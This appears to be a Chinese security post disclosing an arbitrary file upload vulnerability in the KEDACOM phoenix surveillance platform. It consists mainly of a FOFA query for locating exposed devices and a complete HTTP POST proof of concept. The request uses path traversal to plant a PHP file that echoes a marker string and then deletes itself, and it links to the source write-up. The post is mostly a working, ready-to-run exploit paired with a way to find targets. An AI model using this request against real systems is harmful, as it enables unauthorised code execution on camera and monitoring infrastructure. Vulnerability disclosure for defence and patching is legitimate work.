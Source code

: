 #  KEDACOM phoenix监控平台upload_fcgi任意文件上传漏洞   
清晨  摸鱼划水   2025-05-22 08:17  
  
FOFA  
```
app="KEDACOM-phoenix监控平台"
```  
  
POC  
```
# 文件上传路径：/xhtjwvbhuocviluz.php
POST /pmc-bin/upload_fcgi?uploadDir=../&uploadName=xhtjwvbhuocviluz.php HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1v98KI1jc9w1bG97
Pragma: no-cache
Cache-Control: no-cache
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36

----WebKitFormBoundary1v98KI1jc9w1bG97
Content-Disposition: form-data; name="Filedata": filename="aaaa"
Content-Type: image/jpeg

<?php echo 'tcrffkbmvbsbhxgtvzpptttxblclckrf';@unlink(__file__);?>
----WebKitFormBoundary1v98KI1jc9w1bG97--
```  
  
漏洞来源：  
  
[【Web攻防】安服存活指南-记某次攻防演练文件上传绕过到内网遨游](https://mp.weixin.qq.com/s?__biz=Mzg3NzkwMTYyOQ==&mid=2247489194&idx=1&sn=c4e9fc3b774a9851aaeafdfb6506a9bb&scene=21#wechat_redirect)  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qJ5apkMXic81S0ES2ic91ektrT1jBpJkl5so2tuhKiaxCLvB8lt0Qy69ZHc7GIqElESLhstwGffZNzhib7KUB4CdVA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
